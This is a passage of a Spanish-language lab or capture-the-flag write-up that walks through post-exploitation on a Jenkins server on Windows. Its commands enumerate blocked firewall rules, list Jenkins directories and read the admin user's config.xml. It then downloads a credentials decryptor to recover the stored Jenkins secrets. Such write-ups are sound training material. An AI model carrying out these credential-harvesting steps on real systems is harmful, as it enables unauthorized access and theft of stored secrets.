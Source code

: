 Efectivamente, nos llegan las trazas, así que se podría montar una reverse shell por ICMP, pero se hará con otro método usando PowerShell para mostrar nombres de reglas del firewall.

Referencia: https://itluke.online/2018/11/27/how-to-display-firewall-rule-ports-with-powershell/

Recatamos el código:

```powershell
cmd /c powershell -c "Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name,DisplayName,DisplayGroup,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action"
```

Se muestra que todo está bloqueado. Continuamos enumerando directorios desde Jenkins:

```powershell
cmd /c powershell -c "ls ../../"
```

## Enumeración de Jenkins

No hay nada en el directorio actual, así que enumeraremos los que están en `.jenkins`. Jenkins usualmente trae archivos config.xml, directorios de usuarios con más archivos config.

```powershell
cat ../../config.xml
```

No muestra nada útil, así que revisamos usuarios:

```powershell
ls ../../users/
```

Entramos a admin, vemos su archivo config.xml y encontramos un usuario y contraseña probablemente encriptada, así que copiamos todo el archivo y lo guardamos. Luego buscamos un desencriptador de credenciales.

**Referencia:** https://github.com/hoto/jenkins-credentials-decryptor

Usamos la línea de código que dice Linux o Mac:

```bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

Lo lanzamos y vemos una sección donde nos pide 4 archivos que son necesarios:

```bash
./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c credentials.xml \
  -o json
```
